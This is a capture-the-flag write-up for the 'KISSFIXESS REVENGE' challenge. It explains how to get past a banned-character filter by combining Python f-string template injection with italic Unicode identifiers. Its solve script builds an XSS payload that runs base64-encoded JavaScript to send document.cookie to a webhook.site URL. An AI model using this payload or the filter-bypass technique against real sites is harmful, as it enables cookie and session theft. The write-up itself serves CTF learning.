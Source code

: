 # KISSFIXESS REVENGE

```text
Okay, NOW ain't nobody gonna solve it.
```

points: `50`

solves: `76`

author: `hofill`

---

This is a sequel to the [KISSFIXESS](./KISSFIXESS.md) challenge

This time, more strings are banned:

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]
```

Python evaluates `pow` as follows. Characters from the output can be used

```text
>>> pow
<built-in function pow>
```

![image](../images/k5.png)

`self` is not allowed, but italicized *self* :

![image](../images/k6.png)

Solve script (credits: [@CerealSoup](https://github.com/DarkGuy10)):

```python
from base64 import b64encode

substitutions = {
    "&": "${banned[0]}",
    "<": "${banned[1]}",
    ">": "${banned[2]}",
    "(": "${banned[3]}",
    ")": "${banned[4]}",
    ".": "${f'{𝘴𝘦𝘭𝘧}'[5]}",
    "l": "${f'{pow}'[4]}",
    "s": "${f'{𝘴𝘦𝘭𝘧}'[26]}",
    "window": "w${f'{pow}'[3]}ndow",
    "atob": "ato${f'{pow}'[1]}",
}


js_payload = b"fetch('https://webhook.site/51db469d-d555-4496-b6fc-9cc9d9344385/?flag=' + document.cookie);;"
encoded = b64encode(js_payload).decode()
payload = f"</div><SCRIPT>eval(window.atob(`{encoded}`))</SCRIPT>"

for key, sub in substitutions.items():
    payload = payload.replace(key, sub)

print(payload)
```

GOATed [Pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)
